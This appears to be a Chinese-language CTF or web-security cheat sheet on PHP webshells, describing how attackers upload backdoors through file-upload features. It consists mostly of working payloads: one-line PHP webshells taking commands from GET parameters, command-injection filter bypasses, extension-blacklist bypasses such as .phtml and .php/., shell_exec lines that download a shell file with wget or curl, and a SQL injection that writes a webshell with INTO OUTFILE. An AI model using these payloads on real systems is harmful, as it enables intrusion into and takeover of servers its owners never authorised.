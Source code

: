 # Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。   
2. 小馬  
程式小巧   
3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  
*  [How works](#how-works)  
*  [Command injection](#command-injection)  
*  [Webshell cheatsheet](#webshell-cheatsheet)  
*  [Bypass blacklist extension](#bypass-blacklist-extension)  
*  [SQL inj to webshell](#sql-inj-to-webshell)  
*  [Reference](#reference)

# How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找上傳點   
* echo 一個shell到文件中執行  
* 下載 shell  
2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過  

# Command injection
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass space 
cat${IFS}flag
```
   
# Webshell cheatsheet
```php
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>

<?=`$_GET[1]`;                   // <?= is used to shorten the <?php echo `blah`;
// ``就像exec不會直接顯示結果，需要echo
echo `$_GET[1]`;&1=ls

// local file inclusion
include$_GET[1];             // 中間空格可以省略

// 思路：寫入base64編碼過的shell檔，再進行解碼  <環境www>
$_GET[1](file,chracter,8);&1=file_put_contents .....
include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=file

<?php shell_exec('echo 1>1');        // 1=echo 1>1
<?php shell_exec('>1');            // 1=>1

<?php shell_exec('wget -O 1.php url');    // download shell
<?php shell_exec('curl -o 1.php url');    // 預設下載index.html

// 思路：延伸數組＋回調函數 php 5.4以後的特性  
// 參考下方reference
?1[]=blah&1[]=system();&2=assert
param=usort(...$_GET);
```
長度限制思路：  
* 用檔名拼湊成命令,再一次ls進一個shell script [detail](https://shinmao.github.io/2018/02/20/A-tiny-shell/)

[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  
**基本上除了system都不會直接show在頁面上，exec()和shell_exec()我們都會搭個echo**  

# Bypass blacklist extension
文件解析漏洞  
除了```.php```，通過conf模塊的regular expression：  
* ```.php3```  
* ```.php4```  
* ```.php5```  
* ```.php7```  
* ```.pht```  
* ```.phtml```  
以上副檔名也都會被解析成```.php```  
* ```.php.xxx```  
在古老的版本中也存在**多後綴名**的繞過方式  
原理：apache2特性由右至左解析，遇到不認識的無法解析就像左跳！  
* ```.php/.``` 
值得注意的是 這招無法覆蓋舊檔  
原理：php源碼中可以看到用遞歸的方式將檔名結尾的```/.```都去掉！

# SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

### Reference  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
* [七字短shell](http://wonderkun.cc/index.html/?p=524%EF%BC%88%E9%80%9A%E8%BF%87)  
* [PHP MANUAL Assert](http://php.net/manual/en/function.assert.php)  
* [PHP MANUAL Usort](http://php.net/manual/en/function.usort.php)  
* [PHP MANUAL 延長數組](http://php.net/manual/zh/migration56.new-features.php)
